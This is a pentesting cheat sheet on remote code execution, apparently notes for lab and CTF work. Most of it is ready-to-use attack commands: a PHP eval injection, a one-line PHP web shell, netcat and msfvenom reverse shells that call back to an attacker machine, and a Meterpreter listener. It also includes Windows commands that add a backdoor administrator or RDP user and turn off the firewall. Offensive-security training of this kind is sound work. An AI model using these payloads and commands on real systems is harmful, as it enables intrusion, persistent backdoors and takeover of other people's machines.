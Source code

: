 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to an attacker executing commands on a system from a remote machine. Often this means exploiting a web application/server in order to execute underlying system commands.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## Perl shell
I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay. 

As with the PHP shell, change the following variables:
```
my $ip = '127.0.0.1';
my $port = 1234;
```

## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```
You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL (e.g. `http://[host]/shell/`)

## Windows
Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```
You can also attempt to download `nc.exe`, then run: 
```
nc.exe -e cmd.exe [attack machine] [port]
```
If RDP is enabled (port 3389), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:
```
net user $username $password /add
```
Add a user to the “Remote Desktop Users” group:
```
net localgroup "Remote Desktop Users" $username /add
```
Make a user an administrator:
```
net localgroup administrators $username /add
```
Disable Windows firewall on newer versions:
```
NetSh Advfirewall set allprofiles state off
```
Disable windows firewall on older windows:
```
netsh firewall set opmode disable
```
## Upgrading shell
You will use this line pretty often to fix your shells:
```
python -c 'import pty; pty.spawn("/bin/bash");'
```
To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:
```
stty raw -echo
fg
```
Things are going to look really messed up at this point, just type `reset` and hit `Enter`. This should provide you with a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:
```
stty size
```
This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:
```
stty -rows 48 -columns 120
```
## Further reading
* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
